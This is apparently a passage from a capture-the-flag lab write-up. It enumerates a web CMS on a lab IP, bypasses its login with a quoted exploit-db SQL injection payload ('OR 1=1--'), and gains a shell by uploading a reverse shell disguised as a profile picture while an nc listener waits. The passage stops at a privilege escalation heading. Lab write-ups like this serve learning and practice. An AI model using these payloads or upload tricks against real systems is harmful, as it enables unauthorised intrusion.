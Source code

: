 Let's try the enmueration with the port **445**
```
sudo gobuster dir -u http://10.10.159.7:445 -w ~/Documents/Tools/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt

```
**result**
```
/management           (Status: 301) [Size: 320] [--> http://10.10.159.7:445/management/]
```
When I tried this URL, I directly join the **management** page with the **Login** button. When I cicked on it, the login window appears.
---
### Access

I searched and found information related to this type of portal and CMS and found an [exploit](https://www.exploit-db.com/exploits/50221)
```
.....
session = requests.session()

request_url = url + "/classes/Login.php?f=login"
post_data = {"username": "'' OR 1=1-- '", "password": "'' OR 1=1-- '"}
bypass_user = session.post(request_url, data=post_data)
.....
```
We can try this basic SQLi and it works ^^v. Nwo,  we are logged to the Admin console as **Administrator**. 

Another interesting information in the exploit comments:
```
File uploaded from "/admin/?page=user" has no validation check
```
That means we can upload a reverse shell script to gain access.Let's try it!!!

- First: Start a listener
```
nc -nlvp 4646
```
- Second : ReverseShell script settings. Change the IP and PORT with the appropriate information. For the IP, the local machine IP and for the PORT , I sued 4646
- Third : Create a fake profil and upload the reverse shell script as a picture
- Fourth: Click on **Save** and we obtian the Remote Access through the listener ^^

I found the first flag but I cannot open it....
```
$ ls
plot_admin
ubuntu
$ ls -l
total 8
drwxr-xr-x 4 plot_admin plot_admin 4096 Oct 28 10:16 plot_admin
drwxr-xr-x 4 ubuntu     ubuntu     4096 Oct 28 10:09 ubuntu
$ cd plot_admin
$ ls -l
total 8
drwxrwx--- 14 plot_admin plot_admin 4096 Oct 28 07:25 tms_backup
-rw-rw----  1 plot_admin plot_admin   33 Oct 28 09:55 user.txt
$ cat user.txt
cat: user.txt: Permission denied
```
---
### Privilege escalation to plot_admin
